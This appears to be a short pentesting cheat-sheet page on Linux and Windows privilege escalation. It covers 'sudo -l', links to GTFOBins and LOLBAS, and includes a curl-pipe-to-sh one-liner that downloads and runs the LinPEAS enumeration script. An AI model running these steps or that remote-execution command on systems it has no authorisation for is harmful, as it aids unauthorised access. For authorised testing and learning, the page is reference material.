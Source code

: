 ```yaml
---
title: "Privilege escalation"
description: ""
seo:
  title: ""
  description: ""
---
```


## Linux

### Sudo

Lists the commands that the current user can run with sudo. This is useful for finding out if the user has permission to run any commands as root or other users.

```bash
sudo -l
```

### GTFOBins

GTFOBins is a curated list of Unix binaries that can be exploited by an attacker to bypass local security restrictions, if for instance the user can run them with sudo (as we just saw before) or as a setuid binary.
Refer to the [GTFOBins website](https://gtfobins.github.io/) for the full list of binaries and their exploits.

### LinPEAS

[LinPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS) is a script that search for possible paths to escalate privileges on Linux/Unix\*/MacOS hosts.

```bash
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

## Windows

### LOLBAS

The goal of the LOLBAS project is to document every binary, script, and library that can be used for Living Off The Land techniques.
Refer to the [LOLBAS website](https://lolbas-project.github.io/#) for the full list of binaries and their exploits.
